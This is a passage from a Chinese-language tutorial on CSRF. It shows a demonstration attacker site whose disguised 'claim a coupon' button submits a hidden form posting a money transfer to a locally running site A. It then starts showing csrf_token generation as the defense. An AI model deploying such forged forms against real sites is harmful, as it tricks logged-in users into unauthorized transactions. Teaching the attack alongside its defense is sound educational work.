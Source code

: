 > 运行测试，如果在未登录的情况下，不能直接进入转账页面，测试转账是成功的



**(2) 攻击者网站B的代码**

———————————————————WebB后端————————————————

```python
from flask import Flask
from flask import render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('temp_index.html')

if __name__ == '__main__':
    app.run(debug=True, port=8000)
```



———————————————————WebB前端————————————————

```python
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

<h1>我是网站B</h1>

<form method="post" action="http://127.0.0.1:9000/transfer">
    <input type="hidden" name="to_account" value="999999">
    <input type="hidden" name="money" value="190000" hidden>
    <input type="submit" value="点击领取优惠券">
</form>

</body>
</html>
```

> 运行测试，在用户登录网站A的情况下，点击网站B的按钮，可以实现伪造访问



#### 防止CSRF攻击的代码

 在网站A中模拟实现 csrf_token 校验的流程

- 添加生成 csrf_token 的函数

```
# 生成 csrf_token 函数
def generate_csrf():
    return bytes.decode(base64.b64encode(os.urandom(48)))

```
